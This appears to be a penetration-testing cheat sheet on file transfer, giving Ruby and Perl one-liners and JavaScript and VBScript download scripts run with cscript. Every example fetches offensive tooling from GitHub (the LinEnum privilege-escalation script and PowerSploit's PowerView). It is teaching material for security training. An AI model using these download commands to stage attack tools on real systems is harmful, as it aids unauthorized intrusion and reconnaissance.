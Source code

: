 ## Ruby
### Ruby - Download a File
```bash
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```
## Perl
###  Perl - Download a File 
```bash
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```
## JavaScript
The following JavaScript code is based on [this](https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl/373068) post, and we can download a file using it. We'll create a file called `wget.js` and save the following content:
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```
We can use the following command from a Windows command prompt or PowerShell terminal to execute our JavaScript code and download a file.
```bash
cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```
## VBScript
### VBScript - download a file
The following VBScript example can be used based on [this](https://stackoverflow.com/questions/2973136/download-a-file-with-vbs). We'll create a file called `wget.vbs` and save the following content:
```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```
We can use the following command from a Windows command prompt or PowerShell terminal to execute our VBScript code and download a file.
```bash
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```
